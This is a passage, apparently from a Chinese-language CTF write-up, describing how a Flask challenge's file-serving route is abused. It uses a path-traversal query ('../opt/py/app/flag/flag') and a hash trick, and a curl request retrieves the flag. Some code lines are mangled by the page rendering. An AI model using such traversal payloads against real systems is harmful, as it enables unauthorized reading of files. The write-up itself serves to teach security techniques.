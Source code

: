 ```
    try:
        return send_file('/files/{}'.format(file))
    except Exception as e:
        return str(e)[@app](http://twitter.com/app).route('/', methods=['GET'])
def app_index() -> str:
    return render_template('index.html')[@app](http://twitter.com/app).errorhandler(404)
def not_found_error(error) -> str:
    return "Error 404"
```

文件的哈希是一个整数:

```
>>> type(open('/etc/passwd').__hash__())<class 'int'>
```

这样我就可以计算出`flag/flag`的`__hash__()`:

```
view-source:http://66.172.33.148:5008/check_perm/__hash__/?file=../opt/py/app/flag/flag
```

获取标志:

```
curl http://66.172.33.148:5008/protected_area/8771321880381ASIS{1b7dc3a5ba52a11f0361bec284e59d58}
```

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)